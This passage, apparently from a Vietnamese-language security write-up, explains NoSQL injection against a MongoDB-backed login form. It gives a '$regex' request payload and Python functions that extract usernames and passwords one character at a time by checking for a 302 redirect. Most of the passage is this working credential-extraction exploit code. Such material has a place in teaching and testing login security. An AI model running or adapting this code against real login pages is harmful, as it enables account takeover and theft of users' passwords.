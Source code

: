 Ta sẽ tận dụng `$regex` để dump credential. Ví dụ muốn tìm xem chữ cái đầu tiên trong mật khẩu của quản trị viên có phải là “x” hay không ta có thể gửi request như sau:
```
username=admin&password[$regex]=^x.*&login=login
```
Tạo biến bao gồm các ký tự 
```
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
```
Sử dụng vòng lặp for để grep đúng với thứ tự của username và password. Ví dụ username
```
def get_usernames():
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
        if int(pr.status_code) == 302:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break
# Nếu không có ký tự nào khớp (vòng lặp đã thử tất cả các ký tự mà không thành công), kết thúc hàm và trả về password đã tìm được.
                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames
```
Tương tự với password sau khi có username
```
 def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":"", "login": "login"}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, cookies=cookies, verify=False, allow_redirects=False)
            if int(pr.status_code) == 302:
                password += c
                break
# Nếu không có ký tự nào khớp (vòng lặp đã thử tất cả các ký tự mà không thành công), kết thúc hàm và trả về password đã tìm được.
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")
```
